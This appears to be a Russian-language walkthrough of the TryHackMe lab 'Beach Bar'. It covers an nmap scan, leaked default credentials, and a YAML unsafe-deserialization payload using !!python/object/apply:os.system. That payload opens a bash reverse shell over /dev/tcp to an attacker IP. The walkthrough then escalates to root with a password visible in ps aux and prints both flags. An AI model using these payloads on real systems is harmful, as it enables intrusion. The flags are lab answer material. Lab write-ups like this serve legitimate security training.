## 📋 Информация о машине
- **Название:** Beach Bar
- **Платформа:** TryHackMe
- **Уровень сложности:** Easy
- **Дата прохождения:** 1 ноября 2026
- **Цель:** Получить доступ к DJ booth и найти флаги пользователя и root через уязвимость десериализации.

---

## 🔍 Разведка (Reconnaissance)

### 1. Подключение и сканирование

Подключаемся к VPN TryHackMe и запускаем сканирование целевого хоста:
```
sudo nmap -sC -sV -Pn 10.49.148.82
```

**Результаты сканирования:**
- **22/tcp** — OpenSSH 9.6p1 Ubuntu
- **80/tcp** — Gunicorn/Python httpd
- Заголовок страницы: "Beach Bar // Sign in"



## 🔎 Перечисление (Enumeration)

### 2. Анализ веб-интерфейса и утечка данных

Переходим на `http://10.49.148.82`. Видим форму входа "DJ booth sign-in". Брутфорс не требуется. Открываем исходный код страницы (Ctrl+U) или DevTools и находим закомментированный блок или скрытый HTML-элемент с тестовыми учетными данными разработчиков.

**Найденные credentials:**

- Username: dj
- Password: dj




### 3. Доступ к панели управления

Авторизуемся под пользователем `dj`. Попадаем в панель управления плейлистами "Tonight on the floor". Обнаруживаем функционал импорта/экспорта плейлистов в формате YAML.


## 🚪 Эксплуатация (Exploitation)

### 4. Уязвимость Unsafe Deserialization

Функция импорта плейлистов принимает YAML-файлы без должной санитизации. Это классический вектор атаки на небезопасную десериализацию Python объектов.

Проверяем RCE через тестовый payload:
```
!!python/object/apply:os.system ["whoami"]
```
Сервер успешно выполняет команду, подтверждая уязвимость.





### 5. Получение Reverse Shell

Используем найденную уязвимость для получения обратного соединения. Формируем полезную нагрузку с bash reverse shell:
```
!!python/object/apply:os.system ["bash -c 'exec bash -i &>/dev/tcp/192.168.156.193/12345 <&1'"]
```
Запускаем listener на своей машине: `nc -lvnp 12345`. Отправляем payload через форму импорта. Получаем соединение от имени пользователя `bartender`.

### 6. Пользовательский флаг

Находимся в системе как пользователь `bartender`. В домашней директории находим файл `user.txt`.
```
cat /home/bartender/user.txt
```
**User Flag:** `THM{y4ml_pl4yl1st_pwns_th3_b34ch}`

## ⬆️ Повышение привилегий (Privilege Escalation)

### 7. Поиск вектора повышения прав

Анализируем запущенные процессы командой `ps aux`. Обнаруживаем интересный процесс:
```
/opt/beach-bar/venv/bin/python /opt/beach-bar/jukeboxd/jukeboxd.py --stream-pass SunsetSpritz2024!
```
В аргументах процесса виден пароль `SunsetSpritz2024!`. Пробуем его для переключения на другого пользователя или для sudo.
### 8. Root флаг

Используем найденный пароль `SunsetSpritz2024!` для повышения привилегий до root.
```
su root
Password: SunsetSpritz2024!
```
После получения root-оболочки читаем финальный флаг:
```
cat /root/root.txt
```
**Root Flag:** `THM{cr3d3nt14l_r3us3_4t_th3_b34ch_b4r}`



## 🏁 Заключение

Машина **Beach Bar** отлично демонстрирует два критических риска:

1. **Client-Side Information Disclosure:** Хранение учетных данных в исходном коде страницы позволяет обойти аутентификацию без брутфорса.
2. **Unsafe Deserialization:** Возможность импортировать произвольные YAML-файлы без санитизации приводит к RCE.
3. **Credential Exposure in Process Arguments:** Пароли, переданные через CLI аргументы, видны всем пользователям системы через `ps aux`.

### 📚 Ключевые навыки:

1. **Source Code Review:** Анализ HTML/JS на наличие закомментированных секретов.
2. **YAML Deserialization:** Эксплуатация небезопасной загрузки YAML через `!!python/object/apply`.
3. **Process Enumeration:** Анализ вывода `ps aux` для поиска утечек учетных данных.
4. **Web App Security:** Понимание рисков функций импорта/экспорта данных.
